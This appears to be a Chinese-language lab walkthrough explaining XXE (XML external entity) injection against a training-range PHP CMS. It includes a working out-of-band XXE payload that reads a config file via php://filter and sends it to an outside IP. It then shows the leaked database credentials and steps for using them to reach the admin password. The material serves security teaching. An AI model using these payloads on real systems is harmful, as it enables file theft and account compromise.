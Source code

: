 # Chapter 8.5 XXE实体注入

## 0x00 漏洞简介

> XML指可扩展标记语言（EXtensible Markup Language），它是一种类似于HTML的标记语言，专门用于存储文本数据。XML需要自定义标签，具有自我描述性。
>
> XML结构：
>
> 1. 声明结构
> 2. DTD部分
> 3. XML数据

XXE（外部实体注入）是XML注入的一种，普通的XML注入利用面比较狭窄，如果有的话也是逻辑类漏洞。XXE扩大了攻击面。

当允许引用外部实体时，就可能导致**任意文件读取、系统命令执行、内网端口探测、攻击内网网站**等危害

## 0x01 漏洞复现

1. 这是一个微信提供的官方文件，这个文件爆出了一个漏洞。本题是在weixin/index.php下全局搜索`simplexml_load_string()`函数。

	![](https://nc0.cdn.zkaq.cn/md/5371/9d0931ff12439e8ee31758601b008907_21922.png)
2. 要求变量signature不为空，变量echostr为空时才会执行。抓包的时候是GET传参，需要修改为可以自定义传参的POST方式。

	![](https://nc0.cdn.zkaq.cn/md/5371/656d3fa911cd83618540d76d921e7609_31245.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/0f2f5287025e8fbe706df41da7a5890b_80284.png)
3. 传过去后页面报错，证明漏洞说明生效了找不到1.txt文件 但是找到了绝对路径C:\phpStudy\scms\weixin\index.php

	![](https://nc0.cdn.zkaq.cn/md/5371/61b9f04f71ffa06d4fa661510c56461a_62909.png)
4. 根据源码我们可以发现路径中有scms/conn/conn.php，里面存放着数据库的账号和密码。可以使用构建好的XXE语句去读取mysqli_connect里面的内容

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE ANY[
   <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=C:/phpStudy/scms/conn/conn.php">
   <!ENTITY % remote SYSTEM "http://59.63.200.79:8017/1.xml"> 
   %remote;
   %send;
   ]>
   ```

	![](https://nc0.cdn.zkaq.cn/md/5371/e7e413b48404b84ddfa543a9200269cf_56758.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/8773bce0ea5902cc25949903b2d5fac2_94726.png)
5. 重复刚才的操作，传参写入XXE语句。通过XXE炮台进入http://59.63.200.79:8017/3.txt/ 后就会看到一串base64编码，在网页上进行解码就得到。虽然解码不全，但是数据库的账号和密码都在

   ```$conn=mysqli_connect("192.168.0.10","xxe","teiwo!8#7ERe1DPC", "scms");```

	![](https://nc0.cdn.zkaq.cn/md/5371/fb70125d7f4c9f72c263bd31b5f74006_40841.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/89e57748abe169a628d5f1b4ca5993fd_70433.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/b2241bcbc614772db9566f07d07239a1_74717.png)

6. 靶场留了一个adminer.php(在线数据库管理工具) 输入用户名(xxe),密码(teiwo!8#7ERe1DPC)和库名(scms)就可以登入了

	![](https://nc0.cdn.zkaq.cn/md/5371/b308291dacd2a23f265a445a51c22afc_33039.png)

7. 进去后找到管理员的密码然后进行MD5解码就完成了靶场

	![](https://nc0.cdn.zkaq.cn/md/5371/9c882a2fd1fd101cee7b08fa6947b0da_28789.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/bbc685d5f32dd5b7cc3c14e35e433351_31074.png)